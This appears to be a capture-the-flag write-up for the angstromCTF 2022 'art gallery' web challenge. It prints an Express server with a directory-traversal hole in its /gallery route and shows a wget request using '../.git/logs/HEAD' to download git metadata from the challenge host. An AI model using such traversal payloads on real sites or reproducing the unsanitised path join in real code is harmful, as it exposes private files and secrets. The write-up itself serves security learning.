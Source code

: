 ```js
const express = require('express');
const path = require("path");

const app = express();
const port = Number(process.env.PORT) || 8080;

app.get("/gallery", (req, res) => {
    res.sendFile(path.join(__dirname, "images", req.query.member), (err) => {
        res.sendFile(path.join(__dirname, "error.html"))
    });
});

app.get("/", (req, res) => {
    res.sendFile(path.join(__dirname, "index.html"));
});

app.listen(port, () => {
    console.log(`Server listening on port ${port}.`);
});
```

This script reveals important information. All of the images are located in the `images` directory which is under the main directory of the server. Also, this site is vulnerable to directory traversal attack; it means that we can access the files in upper directories using `..` keyword.

The site states that the files are from a git repository. Therefore, the `.git` directory exists somewhere, and its files can be accessed through directory traversal.

I was able to download various files from `.git` directory of the website. I found [a tool](https://github.com/b1fair/get-git-object) that helps interpret the compressed git data files.

```text
/mnt/d/GitHub/angstromCTF2022/web/artgallery/.git$ wget https://art-gallery.web.actf.co/gallery?member=../.git/logs/HEAD -O logs/HEAD
--2022-05-22 21:38:45--  https://art-gallery.web.actf.co/gallery?member=../.git/logs/HEAD
Resolving art-gallery.web.actf.co (art-gallery.web.actf.co)... 35.194.95.171
Connecting to art-gallery.web.actf.co (art-gallery.web.actf.co)|35.194.95.171|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 488 [application/octet-stream]
Saving to: ‘logs/HEAD’

logs/HEAD                                  100%[========================================================================================>]     488  --.-KB/s    in 0s       

2022-05-22 21:38:46 (167 MB/s) - ‘logs/HEAD’ saved [488/488]

/mnt/d/GitHub/angstromCTF2022/web/artgallery/.git$ cat logs/HEAD 
0000000000000000000000000000000000000000 56449caeb7973b88f20d67b4c343cbb895aa6bc7 fraendt <**********@gmail.com> 1651023841 -0400 commit (initial): add program
56449caeb7973b88f20d67b4c343cbb895aa6bc7 713a4aba8af38c9507ced6ea41f602b105ca4101 fraendt <**********@gmail.com> 1651023888 -0400 commit: remove vital secrets        
713a4aba8af38c9507ced6ea41f602b105ca4101 1c584170fb33ae17a63e22456f19601efb1f23db fraendt <**********@gmail.com> 1651024065 -0400 commit: bury secrets
```
